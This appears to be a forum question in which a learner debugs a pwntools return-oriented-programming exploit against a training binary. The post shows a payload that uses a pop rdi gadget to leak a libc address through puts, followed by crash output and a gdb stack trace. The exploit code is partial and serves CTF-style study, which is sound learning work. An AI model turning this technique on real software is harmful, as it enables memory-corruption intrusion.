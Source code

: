 ```python
	pld = cyclic(40)

	pld += popRDI + gotPuts + pltPuts
	# return pld
	
	p.send(pld)
	p.interactive()
	cf = p.corefile
```
Output:
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
0x4004c0
0x601018
[+] Starting local process '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop': pid 21297
[*] Switching to interactive mode
Can you pop shell? I took away all the useful tools..
$ 

[*] Got EOF while reading in interactive
$ 
[*] Process '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop' stopped with exit code -11 (SIGSEGV) (pid 21297)
[*] Got EOF while sending in interactive
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/6-Week/ROP-Pop-Pop/core.21297'
    Arch:      amd64-64-little
    RIP:       0x100000000
    RSP:       0x7fffd6885d98
    Exe:       '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop' (0x400000)
    Fault:     0x100000000
```

When sending the same payload to rop running with gdb, I see the values as expected in the stack and it looks like the code will jump to my pop RDI gadget once main returns:
```
stack ────
0x00007fffffffdd98│+0x0000: 0x00000000004006b3  →  <__libc_csu_init+99> pop rdi     ← $rsp
0x00007fffffffdda0│+0x0008: 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
0x00007fffffffdda8│+0x0010: 0x00000000004004c0  →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
0x00007fffffffddb0│+0x0018: 0x0000000100000000

code:x86:64 ────
 →   0x40064a <main+41>        ret    
   ↳    0x4006b3 <__libc_csu_init+99> pop    rdi
        0x4006b4 <__libc_csu_init+100> ret    
```
But eventually I get a segmentation error 


